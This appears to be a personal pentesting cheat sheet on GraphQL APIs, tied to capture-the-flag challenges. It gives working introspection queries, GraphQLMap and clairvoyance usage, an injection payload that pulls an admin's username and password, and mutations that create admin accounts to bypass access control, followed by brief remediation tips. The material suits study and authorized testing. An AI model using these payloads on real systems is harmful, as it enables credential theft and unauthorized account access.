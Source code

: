 # GraphQL

[![graphql](../../../../cybersecurity/_badges/hacktricks/graphql.svg)](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql)
[![graphql_introspection](../../../../cybersecurity/_badges/rootme/web_server/graphql_introspection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Introspection)
[![graphql_injection](../../../../cybersecurity/_badges/rootme/web_server/graphql_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Injection)
[![graphql_mutation](../../../../cybersecurity/_badges/rootme/web_server/graphql_mutation.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/GraphQL-Mutation)

<div class="row row-cols-lg-2"><div>

[GraphQL](https://en.wikipedia.org/wiki/GraphQL) (Graph Query Language) is an open-source query language for APIs. It's used by GitHub, Shopify, and Facebook internally.

* [GraphQL Documentation](https://graphql.org/) <small>(⛪)</small>
* [GitHub](https://github.com/graphql/graphql-js) <small>(20.2k ⭐)</small>

It was designed to provide a more efficient, powerful, and flexible alternative to traditional REST APIs. It solves a problem of REST APIs which is under- and over-fetching.

There is only one endpoint. We can perform multiple queries in one request. Look for: `/api/graphql`, `/graphql`, `/graphiql`, etc.

Look into the JavaScript Source Code and you may find if it's used.
</div><div>

 To query the `id,username` of the `user` with `id=123`:

```graphql
query {
  # if available, list all users as "users"
  users: user { id, username }
  # query one user
  user(id: 123) {
    id
    username
  }
}
```
</div></div>

<hr class="sep-both">

## GraphQLMap

[![graphql_introspection](../../../../cybersecurity/_badges/rootme/web_server/graphql_introspection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Introspection)
[![graphql_injection](../../../../cybersecurity/_badges/rootme/web_server/graphql_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Injection)
[![graphql_mutation](../../../../cybersecurity/_badges/rootme/web_server/graphql_mutation.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/GraphQL-Mutation)

<div class="row row-cols-lg-2"><div>

[GraphQLMap](https://github.com/swisskyrepo/GraphQLmap) <small>(1.4k ⭐, 2023 🪦)</small> was developed by the owner of PayloadsAllTheThings. It allows us to send GraphQL queries to an endpoint rather easily. It also provide a few utilities.

```shell!
$ pipx install git+https://github.com/swisskyrepo/GraphQLmap
$ pipx runpip graphqlmap install requests
$ graphqlmap -h.1
```

It can dump the schema and present it in a nice representation.
</div><div>

A basic usage:

```shell!
$ graphqlmap -u 'https://example.com/api/graphql' --headers '{"Authorization": "Bearer ..."}' --method POST
prompt> query { account(username: "admin") { id, username, password } }
```
</div></div>

<hr class="sep-both">

## Introspection 🗺️

[![graphql_introspection](../../../../cybersecurity/_badges/rootme/web_server/graphql_introspection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Introspection)

Introspection refer to dumping the API schema. It's often disabled in production.

<div class="row row-cols-lg-2"><div>

#### Introspection — Manual Queries

Each object has a type. Each type has attributes. The type may have a constructor with arguments that are required to query an object.

```text!
{__schema{types{name}}}
{__schema{types{name,fields{name}}}}
{__schema{types{name,fields{name},description}}}
{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}
```

After identifying the types and their arguments, we can query them:

```text!
{MyType{field1, field2}}
{MyType(arg:value){field1, field2}}
```

➡️ When errors are enabled, you can receive suggestions from GraphQL like a type or attribute name that is similar to your input.
</div><div>

#### Introspection — Graphical WebUI

[GraphQL Voyager](https://graphql-kit.com/graphql-voyager/) <small>(7.7k ⭐)</small> can take the input from your introspection query or from tools such as [clairvoyance](#introspection--clairvoyance) and display it as a graph.

<br>

#### Introspection — clairvoyance

[clairvoyance](https://github.com/nikitastupin/clairvoyance) <small>(1.1k ⭐)</small> can be used to dump the schema:

```shell!
$ pipx install git+https://github.com/nikitastupin/clairvoyance
$ clairvoyance 'https://example.com/api/graphql' -o schema.json
```

</div></div>

<hr class="sep-both">

## GraphQL Injections

<div class="row row-cols-lg-2"><div>

#### GraphQL Query Injection

[![graphql_injection](../../../../cybersecurity/_badges/rootme/web_server/graphql_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/GraphQL-Injection)
[![graphql_mutation](../../../../cybersecurity/_badges/rootme/web_server/graphql_mutation.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/GraphQL-Mutation)

Much like SQL, you can manipulate a query if user input is added directly to the query without any sanitization.

```graphql
query {
  product(name: "$prodname") {
    id
    name
    description
  }
}
```

The normal expected input would be:

```js!
prodname = "toy"
```

But a malicious user could use the code below. We use `#` to avoid handling the rest of the request.

```js!
username = 'toy"){\nid\n}\naccount(username:"admin"){\nid,username,password\n}#'
```

Another alternative would be to close the `query{` by using `\n}`.
</div><div>
</div></div>

<hr class="sep-both">

## GraphQL Mutation Queries

[![graphql_mutation](../../../../cybersecurity/_badges/rootme/web_server/graphql_mutation.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/GraphQL-Mutation)

<div class="row row-cols-lg-2"><div>

When introspecting the database, we may find mutations. They are functions allowing us to add/edit the database.

```text!
createAccount[]: id (Int!), username (String!), password (String!)
```

You can invoke it as follows:

```graphql
mutation {
  createAccount(id: 5, username: "admin", password: "abc") { id, username }
}
```
</div><div>

The main issues are:

* 📚 Creating records to bypass access control <small>(role=admin)</small>
* 🪦 Creating records to perform an attack such as XSS
* 💦 Updating records to bypass access control <small>(role=admin)</small>
* 💥 Creating/Updating records to exploit references and access unintended objects. For instance, if we were blocked access to B, but we can create an object A that is referencing an object B, then by querying A, we may be able to access B.

```graphql
query { notes { id, flag } } # blocked
query { post(id: 1) { id, notes { id, flag } } } # OK
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [How to exploit GraphQL endpoint: introspection, query, mutations & tools](https://www.yeswehack.com/learn-bug-bounty/how-exploit-graphql-endpoint-bug-bounty)
* [pentest101](https://escape.tech/blog/pentest101/)
* [inigo](https://inigo.io/blog/graphql_injection_attacks)
* InQL
</div><div>

Remediation

* RateLimit alone is not very useful as multiple queries in one request
* SizeLimit should be enforced to block long requests
* Access Control should be implemented (ex: JWT)
* The server should validate types and values
</div></div>